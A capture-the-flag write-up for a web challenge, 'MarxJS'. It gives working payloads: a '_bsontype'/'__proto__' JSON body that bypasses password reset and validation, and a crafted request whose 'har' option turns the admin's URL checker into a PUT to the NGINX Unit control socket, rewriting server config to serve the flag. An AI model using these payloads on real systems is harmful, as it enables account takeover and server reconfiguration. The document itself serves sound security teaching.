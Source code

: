 # MarxJS
Realword web

For start this game, you should set up a SMTP-based email account to `/config/default.json`
![avatar](img/002.png)
From attachment, get the information of admin’s account
![avatar](img/001.png)
Use payload
```json
{"email":{"address":"email","_bsontype":"aa"},"__proto__":{}}
```
to bypass function of reset password.

After logining, We access to  the admin’s page, It is a website to check the alive of website. From the code we can get that it check website with method of HEAD, the code is follow
```javascript
@AdminRequired()
  @ValidateBody(Url)
  async checkstatus(ctx: Context) {
    await rp.head(ctx.request.body.url).then(() => { this.status = true; },
        () => { this.status = false; } );
    return new HttpResponseRedirect(this.status ? '/admin?alive=true' : '/admin?error=true');
}
```

From  Dockerfile, we can know that it build website by unit NGINX Unit.
[Configuration — NGINX Unit](https://unit.nginx.org/configuration/#examples)

And then we can change the language by use socket server
```json
{
        "listeners": {
            "127.0.0.1:8300": {
                "pass": "applications/blogs"
            }
        },

        "applications": {
            "blogs": {
                "type": "php",
                "root": "/www/blogs/scripts/"
            }
        }
    }

``` 

After fuzzing,  we know that use `{‘__proto__’:{}}` can bypass the check of `class-validator` . And then, from module of request, we can through object har to reset method of the request,  that is we can send a data of post by `request.head`, for read the follow source code
```javascript
// /lib/har.js

function test (type) {
  return req.postData.mimeType.indexOf(type) === 0
}
if (test(‘application/x-www-form-urlencoded')) {
  options.form = req.postData.paramsObj
} else if (test(‘application/json’)) {
  if (req.postData.jsonObj) {
    options.body = req.postData.jsonObj
    options.json = true
  }
} else if (test(‘multipart/form-data’)) {
  options.formData = {}

  req.postData.params.forEach(function (param) {
    var attachment = {}

    if (!param.fileName && !param.contentType) {
      options.formData[param.name] = param.value
      return
    }

    // attempt to read from disk!
    if (param.fileName && !param.value) {
      attachment.value = fs.createReadStream(param.fileName)
    } else if (param.value) {
      attachment.value = param.value
    }

    if (param.fileName) {
      attachment.options = {
        filename: param.fileName,
        contentType: param.contentType ? param.contentType : null
      }
    }

    options.formData[param.name] = attachment
  })
} else {
  if (req.postData.text) {
    options.body = req.postData.text
  }
}
```


From overlap the object of request, we can send a specific json data to  cover  the unix socket. Then, build json data like that
```json
{"url": {"uri": "http://unix:/var/run/control.unit.sock:/config/", "har": {"method": "PUT", "postData": {"__proto__": {"text": "{\"listeners\": {\"0.0.0.0:13333\": {\"pass\": \"applications/realworldcms\"}},\"applications\":{\"realworldcms\":{\"type\": \"php\",\"root\": \"/\",\"index\": \"flag\"}}}"}}}}, "__proto__": {}}
```

To make the flag reflect the path of page. Finally, visiting the root to get flag

![avatar](img/003.png)

## Reference
- [几则NodeJS的安全问题 – Wupco’s Blog](http://www.wupco.cn/?p=4520)
